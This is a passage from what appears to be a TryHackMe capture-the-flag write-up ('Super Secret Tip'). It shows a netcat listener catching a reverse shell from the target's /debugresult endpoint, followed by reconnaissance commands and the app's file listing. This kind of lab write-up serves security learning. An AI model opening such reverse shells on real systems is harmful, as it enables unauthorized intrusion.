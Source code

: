 ![Untitled](/assets/Super%20Secret%20Tip%20images/Untitled%209.png)

Start a listener on local and send the request to `/debugresult`:

```
┌──(kali㉿kali)-[~/TryHackMe/supersecrettip]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.17.241] 54388
bash: cannot set terminal process group (14): Inappropriate ioctl for device
bash: no job control in this shell
[REDACTED]@482cbf2305ae:/app$ whoami;id;pwd;ls -la
whoami;id;pwd;ls -la
[REDACTED]
uid=1000([REDACTED]) gid=1000([REDACTED]) groups=1000([REDACTED])
/app
total 40
drwxr-xr-x 1 root root 4096 Jun 24  2023 .
drwxr-xr-x 1 root root 4096 Jun 24  2023 ..
drwxr-xr-x 2 root root 4096 May 20  2023 __pycache__
drwxr-xr-x 2 root root 4096 May 17  2023 cloud
-rw-r--r-- 1 root root   92 Jun 24  2023 debugpassword.py
-rw-r--r-- 1 root root  170 May 20  2023 ip.py
-rw-r--r-- 1 root root 2898 Jun 24  2023 source.py
drwxr-xr-x 6 root root 4096 Apr  2  2023 static
-rw-r--r-- 1 root root   44 May 17  2023 supersecrettip.txt
drwxr-xr-x 2 root root 4096 Apr  2  2023 templates
```
